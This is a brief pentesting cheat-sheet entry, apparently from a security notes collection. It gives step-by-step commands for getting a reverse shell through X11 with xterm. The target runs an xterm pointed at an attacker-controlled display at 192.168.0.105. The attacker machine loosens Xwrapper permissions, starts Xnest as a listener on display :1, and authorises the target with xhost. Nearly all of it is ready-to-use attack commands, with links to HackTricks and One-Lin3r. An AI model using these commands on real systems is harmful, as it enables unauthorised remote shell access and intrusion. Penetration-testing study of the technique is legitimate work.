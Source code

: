 # Xterm

- Reverse shell to run the target

`$ xterm -display 192.168.0.105:1`

- Modify the x11

`user@pentestos:~$ cat /etc/X11/Xwrapper.config`

---

```
allowed_users=anybody
```

`user@pentestos:~$ sudo systemctl restart display-manager`

- Starting a listener with a port 6001

`user@pentestos:~$ Xnest -ac :1`

- Authorize it then you'll receive the connection

`user@pentestos:~$ xhost +<target_IP>`

---
## References

- [Shells Linux](https://book.hacktricks.xyz/shells/shells/linux)

- [One-Lin3r](https://github.com/D4Vinci/One-Lin3r)